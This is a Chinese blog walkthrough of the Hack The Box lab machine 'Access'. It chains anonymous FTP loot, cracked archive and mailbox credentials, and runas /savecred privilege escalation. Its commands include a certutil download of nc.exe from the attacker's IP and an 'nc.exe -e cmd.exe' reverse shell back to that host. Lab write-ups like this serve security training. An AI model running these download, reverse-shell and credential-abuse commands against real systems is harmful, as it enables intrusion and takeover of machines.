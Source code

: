 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tvGTafFN6Fyiw5FFlgmJmw)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **79** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_gif/44UT6cJicBVUGUwbPDzvHtk8BGscpG3ucFWttjjHAn9nKuuIgYFBUTnnQHd6rCFEtTN7YAhIZoEGwSdKaSLqNlA/640?wx_fmt=gif)

靶机地址：https://www.hackthebox.eu/home/machines/profile/156

靶机难度：初级（4.0/10）

靶机发布日期：2019 年 2 月 25 日

靶机描述：

Access is an "easy" difficulty machine, that highlights how machines associated with the physical security of an environment may not themselves be secure. Also highlighted is how accessible FTP/file shares often lead to getting a foothold or lateral movement. It teaches techniques for identifying and exploiting saved credentials.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/8NicMvXribe7uMvSuOzNiaduO31HtjchjrUcB2HicpDUBet2J3rTz8EjbKaRq2f8zEGWnV8x1UoNQBf8WLXZISpNIQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XxrR38Omj5OU35wZiblPezbUu0aFe8g7adFDiar2por60icw9uh1XSFlykibc3jzCByDbG1hhhxNEk13P15Ofiam6Mg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_gif/z0LeJkZyUa7niaILpQLyj2SXVMFWPGRlKJVgNJ6OUubgicSlhy5yoOrKmqJ2dcAicOTFYG7FUAxFCCbYwz70WcaoQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQwKiaEVOibqYUiae8wGiaYdibMNrhQMOkJ5Tq92RhotcVSt3UtztSAZuFN0Q/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.98....

Nmap 发现可以匿名登录 FTP，Telnet 和运行 IIS 7.5 的 Web 服务器运行着，IIS 7.5 知道是 Windows Server 2008 R2 版本...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQd5tpyY9tqdcxrealuwcEjjaTcV5E9vUtURib72RibVtIA2mx7V2k1vFA/640?wx_fmt=png)

80 页面可以看到视频监控的图片... 没获得什么信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQ8FOdHicmZZ8GLibUEhQicGO7hpEsXNpvw8IffqlKLGEKGGqXicJRwicxXNA/640?wx_fmt=png)

直接来到 FTP 匿名登录了.. 发现两个文件，下载分析...

backup.mdb 是数据库文件... 找下底层有没有账号密码...

apt-get install mdbtools 这里需要下载 mdb 工具对数据库进行查看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQDnroy8Df9aKPpzgLAickich3yIYstic7mOibibbJdyP9RiavMrj0pSy2wqHQ/640?wx_fmt=png)

由于最近 HTB 老是出问题，我这里就最简洁的方式查看到了密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQgWJicWzibGjTfMyJbohHguBXUYwic1aYHop3LnZGs5iclkdlIA9Lp3h99A/640?wx_fmt=png)

输入密码即可...

```
7z e Access\ Control.zip -paccess4u@security
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQxzfQUw7ruzLQwy1eEzibDr869tjY5ickCgn5mhicFtAcdpmx0T9uzeRqw/640?wx_fmt=png)

这是 Microsoft Outlook 电子邮件文件夹...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQO6QcA5Mib4t1geicacDRVCB5Zp5o8ynmecJiaVoPvWd5Bf6FtzPMSHwuA/640?wx_fmt=png)

```
apt-get install pst-utils
readpst 'Access Control.pst'
```

意思是创建了 Access Control.mbox 文件来读取内容...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQpaN5cpfeqrD8eeJSHOib1ia8g9ULE6cOFvibDRz98rWabpfwbBv5QwkCw/640?wx_fmt=png)

首先看到的是这封电子邮件，其中包含名为的帐户的凭据 security，密码：

```
4CcessC0ntr0ller...
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQOLdy8bvjmmeB1jElPUkxg63bEtuh3g8uaibIicxiaaFOqZ2x3IPOyk0XQ/640?wx_fmt=png)

登陆 23 端口... 成功获得了 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQT8rK4WoGD2lGqnk0V7ouXOtKdjiag60aia7VMoiclQgUeicA0sEPFZmIlg/640?wx_fmt=png)

由于现在处于 security 用户下，无法进入管理员权限.. 在用户界面还存在 Public 用户，进去在桌面发现了 lnk 文件...

读取发现 Windows\System32\runas.exe 以管理员身份运行着...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQ0ibMZD1GeDfXnUtpaqLZibOTdx3X4LYqqOAUicbRE1EOgUiaTFzU0VxBVg/640?wx_fmt=png)

Password required 设置为 No，如果设置为 Yes，将无法在 runas 不知道密码的情况下作为管理员进行使用...

这里的 runas 是允许我们以其他用户身份运行命令，并且该选项 / savecred 允许我们使用该命令无需输入密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQKWOYkhicKmUnZlVLElx8VVKt07QHNZLgDFxethawYTbicnzCXh7Voicsg/640?wx_fmt=png)

这里直接上传 nc.exe，利用 runas /user:Administrator /savecred 无密码登陆模式执行反向 shell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQvpg14VqichhgkOY1FFibK5tibbU2AW70Y3JGibGvbPeXBvzYsPIL1icsicSA/640?wx_fmt=png)

```
certutil -urlcache -split -f http://10.10.14.11/nc.exe nc.exe
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.11 6666 > shell.bat
runas /user:administrator /savecred c:\users\security\shell.bat
```

成功提权... 获得了 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_gif/YnfnlicbPtFCfftiaRIe6t8lnrv9ueWwt2uANWPZAx8iaPnlPia0gncwDAsUiahaOibGg7mB0jYgTwdk6uNt4Bib5dHMw/640?wx_fmt=gif)

方法 2：

  

查看：

```
[Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
```

文章可以进行 windows 的命令查询..  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQVT81v0WOFmAKAy9bShjI12J4YEicbgy0JU9EwLVbZA9DAicGAypNpKsA/640?wx_fmt=png)

可以看到 windows 方式提权很多，前辈已经介绍了这类的方法... 开始把

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQVnTkytJ4odWpA9eGQ8IAaFVuWIQLcH1TbYrMbmmz7oYTHJXlTYFDuA/640?wx_fmt=png)

使用 cmdkey 列出机器上存储的凭证... 并且存在一个凭证...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMXOgkJlG058tGc4dFwS5hQibecnWniamNgxC2Ee3KCw9VxBsssWyjh79OMUaice8NVStzTnEEOBEm4g/640?wx_fmt=png)

```
runas /user:Access\Administrator /savecred "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\dayu.txt"
```

可以看到成功获得 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_gif/44UT6cJicBVUGUwbPDzvHtk8BGscpG3ucFWttjjHAn9nKuuIgYFBUTnnQHd6rCFEtTN7YAhIZoEGwSdKaSLqNlA/640?wx_fmt=gif)

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/8NicMvXribe7uMvSuOzNiaduO31HtjchjrUcB2HicpDUBet2J3rTz8EjbKaRq2f8zEGWnV8x1UoNQBf8WLXZISpNIQ/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)